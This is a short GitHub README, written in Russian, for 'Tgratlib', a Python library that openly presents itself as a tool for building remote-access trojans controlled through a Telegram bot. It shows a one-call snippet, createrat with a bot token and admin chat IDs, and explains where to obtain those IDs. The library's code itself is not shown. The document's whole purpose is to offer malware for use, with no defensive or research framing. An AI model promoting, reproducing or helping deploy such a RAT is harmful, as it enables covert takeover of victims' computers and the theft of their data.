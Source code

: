 # Tgratlib

Библиотека для Python для создания вирусов удалённого доступа(RAT) с управлением через Telegram.

Код для создания простого RAT:
```
import tgratlib

tgratlib.createrat(TOKEN="YOUR_BOT_TOKEN", ADMIN_ID=123456789, ADMIN_CHAT_ID=123456789)
```

В параметр TOKEN нужно поместить токен Telegram бота.
В параметр ADMIN_ID нужно поместить ваш ID в Telegram.
В параметр ADMIN_CHAT_ID нужно поместить ваш chat id.

Получить последние два параметра можно в @getmyid_bot.
